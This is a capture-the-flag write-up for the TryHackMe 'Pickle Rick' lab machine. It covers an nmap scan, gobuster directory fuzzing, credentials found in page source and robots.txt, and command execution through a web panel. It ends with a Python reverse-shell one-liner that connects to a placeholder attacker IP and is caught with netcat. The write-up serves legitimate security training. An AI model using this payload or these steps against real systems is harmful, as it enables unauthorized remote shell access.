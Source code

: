 # TryHackMe-Pickle-Rick
This is a writeup for Pickle Rick TryHackMe machine!  
https://tryhackme.com/room/picklerick

## Scanning & Enumeration

To begin with this machine, we will perform a nmap scan on our target:

```
nmap -sV -sC -T5 10.10.122.153
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-26 01:01 EDT
Nmap scan report for 10.10.122.153
Host is up (0.16s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 79:d6:1c:ca:5e:5c:3f:14:83:d4:21:07:b1:01:76:c1 (RSA)
|   256 61:2e:22:78:78:b9:d7:7e:c9:77:2d:d3:29:07:07:da (ECDSA)
|_  256 07:64:71:80:17:56:a6:79:61:bd:d4:09:f3:85:15:4d (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Rick is sup4r cool
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
## Service Enumeration
### Port 22 - SSH
### Port 80 - HTTP

Now we'll proceed to visit the website located at port 80
![image_2024-04-26_001448881](https://github.com/smoothonghub/TryHackMe-Pickle-Rick/assets/86502006/028603ac-1f72-4fd7-8b5a-83b00aa96054)
This is the first thing we see on the website, if we take a view on the page source we can find this
![image_2024-04-26_001731557](https://github.com/smoothonghub/TryHackMe-Pickle-Rick/assets/86502006/01135460-5b08-40c8-bfb3-cae0ffbea415)
Looks like we found an username, next, we will proceed to find hidden directories that may have been hidden from us
## Directory Fuzzing
## Using Gobuster
**Gobuster** is a tool used to brute-force:
* URIs (directories and files) in web sites.
* DNS subdomains (with wildcard support).
* Virtual Host names on target web servers.
* Open Amazon S3 buckets.
* Open Google Cloud buckets.
* TFTP servers
#### If you wish to install Gobuster, here is the link to the official github repository: https://github.com/OJ/gobuster
```
gobuster dir -u 'http://10.10.122.153/' -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 200 --no-error -x php,sh,txt,cgi,html,css,js,py
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.122.153/
[+] Method:                  GET
[+] Threads:                 200
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,sh,
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/login.php            (Status: 200) [Size: 882]
/.php                 (Status: 403) [Size: 278]
/.                    (Status: 200) [Size: 1062]
/assets               (Status: 301) [Size: 315] [--> http://10.10.122.153/assets/]
/portal.php           (Status: 302) [Size: 0] [--> /login.php]
```
This are some directory gobuster could find for us, we could be interested in **/login.php** so we will navigate into it
![image_2024-04-26_003529817](https://github.com/smoothonghub/TryHackMe-Pickle-Rick/assets/86502006/bbb9309b-3f13-431f-9c04-31f441a966f2)
We will find a login page, we already have the username but we lack the password, so we can keep with the directory fuzzing
At some point, we will encounter a file called **robots.txt**, most websites will have a robots.txt file which basically tells the sitee what it is allowed and not allowed to index.
If we check the robots.txt file we will encounter
![image_2024-04-26_003953275](https://github.com/smoothonghub/TryHackMe-Pickle-Rick/assets/86502006/f874ffe2-2943-4d26-991e-d1a19f75a39b)
This could be the password for our **/login.php** so lets try
![image_2024-04-26_004100740](https://github.com/smoothonghub/TryHackMe-Pickle-Rick/assets/86502006/a0f5cb3e-e8eb-40fd-949e-1416b55078db)
And we were right, it was indeed the password for our **/login.php**
## Command Panel
The site we were redirected has a command panel, so, lets try to execute some simple command to see if it allows us to do so
![image_2024-04-26_004451144](https://github.com/smoothonghub/TryHackMe-Pickle-Rick/assets/86502006/9fb45fdf-e904-4727-a731-71c03ef058e0)
And with this, we realize we can actually execute commands, if we try to execute a **cat** in Sup3rS3cretPickl3Ingred.txt, we are disallowed to perform it
![image_2024-04-26_004650641](https://github.com/smoothonghub/TryHackMe-Pickle-Rick/assets/86502006/488fe1f4-f619-46bc-a066-36a7ea11114c)
We can read the file if we do this though
```
http://<ip>/Sup3rS3cretPickl3Ingred.txt
```
And like that, we will have the first ingredient

At this point, we could go for two ways on exploiting this machine to get the other ingredientes

## First way
### Getting a reverse shell through command panel
First, we can search the python version with 
```
which python3
which python2
which python
```
We will find this
![image_2024-04-26_005506068](https://github.com/smoothonghub/TryHackMe-Pickle-Rick/assets/86502006/00f2e85c-1ce6-4aa0-bb96-c120d5d09188)
Ok, so now we know that python3 is on this machine so lets get a reverse shell using this:
`python3 -c 'socket=__import__("socket");os=__import__("os");pty=__import__("pty");s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<yourIp>",<listeningPort>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'`
Before we execute the command we need a netcat set on the port we specified like this

![image_2024-04-26_005931396](https://github.com/smoothonghub/TryHackMe-Pickle-Rick/assets/86502006/28f227fb-d676-4c0b-9a7e-5797d115a2bb)

If everything is working right, we will receive a reverse shell on our listening port

![image_2024-04-26_010239772](https://github.com/smoothonghub/TryHackMe-Pickle-Rick/assets/86502006/959d6e72-01b1-4c63-a953-ccd4d6226ed5)

We can upgrade this shell using `bash -i`
So, with this shell, we are way more comfortable moving around the machine without needing to use the command panel
Lets search for the other ingredients

![image_2024-04-26_010637175](https://github.com/smoothonghub/TryHackMe-Pickle-Rick/assets/86502006/059b7936-ce3a-410b-9197-0cf37deebe78)

If we move to this directory and do a `ls` on it, we will find the second ingredient

![image](https://github.com/smoothonghub/TryHackMe-Pickle-Rick/assets/86502006/6fab408b-ff97-424a-ae4e-5d36c30ea34b)


